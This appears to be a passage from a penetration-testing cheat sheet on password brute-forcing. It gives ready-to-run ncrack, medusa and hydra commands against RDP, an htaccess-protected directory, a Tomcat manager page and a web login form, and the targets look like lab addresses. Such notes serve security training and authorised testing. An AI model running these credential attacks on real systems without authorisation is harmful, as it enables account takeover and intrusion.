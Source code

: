 #### Port 3389 - RDP&#x20;

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

#### Port 80/443 htaccess

#### Password protect directory with htaccess <a href="#password-protect-directory-with-htaccess" id="password-protect-directory-with-htaccess"></a>

**Step 1**

Create a directory that you want to password-protect. Create .htaccess tile inside that directory. Content of .htaccess:

```
AuthType Basic
AuthName "Password Protected Area"
AuthUserFile /var/www/html/test/.htpasswd
Require valid-user
```

Create .htpasswd file

```
htpasswd -cb .htpasswd test admin
service apache2 restart
```

This will now create a file called .htpasswd with the user: test and the password: admin

If the directory does not display a login-prompt, you might have to change the **apache2.conf** file. To this:

```
<Directory /var/www/html/test>
    AllowOverride AuthConfig
</Directory>
```

**Then bruteforce with**&#x20;

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

**Tomcat Apache**

```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

#### HTTP POST Login Form

```
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect*”
```
